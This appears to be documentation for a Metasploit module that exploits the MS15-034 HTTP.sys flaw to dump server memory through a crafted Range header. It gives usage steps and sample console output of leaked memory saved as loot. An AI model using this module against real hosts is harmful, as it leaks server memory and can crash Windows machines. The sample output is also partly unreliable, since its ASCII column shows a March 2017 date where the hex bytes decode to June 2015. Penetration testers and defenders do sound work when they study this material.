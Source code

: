 ##Description

This module dumps memory contents using a crafted Range header and affects only Windows 8.1, Server 2012, and Server 2012R2. Note that if the target is running in VMware Workstation, this module has a high likelihood of resulting in BSOD; however, VMware ESX and non-virtualized hosts seem stable. Using a larger target file should result in more memory being dumped, and SSL seems to produce more data as well.

## Verification Steps

1. Do: ```use auxiliary/scanner/http/ms15_034_http_sys_memory_dump```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```run```

## Sample Output
```
msf > use auxiliary/scanner/http/ms15_034_http_sys_memory_dump
msf auxiliary(ms15_034_http_sys_memory_dump) > set RHOSTS 10.1.1.125
RHOSTS => 10.1.1.125
msf auxiliary(ms15_034_http_sys_memory_dump) > set RPORT 80
RPORT => 80
msf auxiliary(ms15_034_http_sys_memory_dump) > exploit

[+] Target is vulnerable!
[+] Content length is 10240 bytes
[+] Stand by...
[+] Memory contents:
[*] 4854 5450 2f31 2e31 2032 3030 204f 4b0d    HTTP/1.1 200 OK.
[*] 0a43 6f6e 7465 6e74 2d54 7970 653a 2074    .Content-Type: t
[*] 6578 742f 6874 6d6c 0d0a 4c61 7374 2d4d    ext/html..Last-M
[*] 6f64 6966 6965 643a 204d 6f6e 2c20 3232    odified: Mon, 20
[*] 204a 756e 2032 3031 3520 3134 3a32 313a     Mar 2017 21:27:
[*] 3535 2047 4d54 0d0a 4163 6365 7074 2d52    55 GMT..Accept-R
[*] 616e 6765 733a 2062 7974 6573 0d0a 4554    anges: bytes..ET
[*] 6167 3a20 2261 3563 6663 3863 6166 3661    ag: "a5cfc8caf6a
[*] 6364 3031 3a30 220d 0a53 6572 7665 723a    cd01:0"..Server:
[*] 204d 6963 726f 736f 6674 2d49 4953 2f38     Microsoft-IIS/8
[*] 2e35 0d0a 582d 506f 7765 7265 642d 4279    .5..X-Powered-By
[*] 3a20 4153 502e 4e45 540d 0a00 0000 0000    : ASP.NET.......
[*] 0000 0202 4672 6167 0000 0000 0000 0000    ....Frag........
[*] c028 0000 0000 0000 0000 0000 0000 0000    .(..............
[*] 0200 0a00 4672 6565 0000 0000 0000 0000    ....Free........
[*] d01e f6c5 02f8 ffff 40a2 6502 00e0 ffff    ........@.e.....
[*] 0a00 0d02 4d64 6c20 0000 0000 0000 0000    ....Mdl ........
[*] 1000 6702 00e0 ffff 3800 0c00 0000 0000    ..g.....8.......
[*] 0000 0000 0000 0000 ba9a e501 00e0 ffff    ................
[*] 0090 e501 00e0 ffff 5c00 0000 ba0a 0000    ........\.......
[*] 59a8 1300 0000 0000 0000 0000 0000 0000    Y...............
[*] 0000 0000 0000 0000 0000 0000 0000 e0dc    ................
[*] 0d00 0d02 4d64 6c20 0000 0000 0000 0000    ....Mdl ........
[*] 9079 2602 00e0 ffff 3800 1c00 0000 0000    .y&.....8.......
...
...
...
[*] 6079 0702 00e0 ffff 0000 0000 0000 0000    `y..............
[*] 0e00 1902 5669 4d6d 0000 0000 0000 0000    ....ViMm........
[*] Suppressed 346 uninteresting lines
[*] Memory dump saved to /home/rw/.msf4/loot/20150622073911_default_10.1.1.125_iis.ms15034_145400.bin
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(ms15_034_http_sys_memory_dump) > 
```


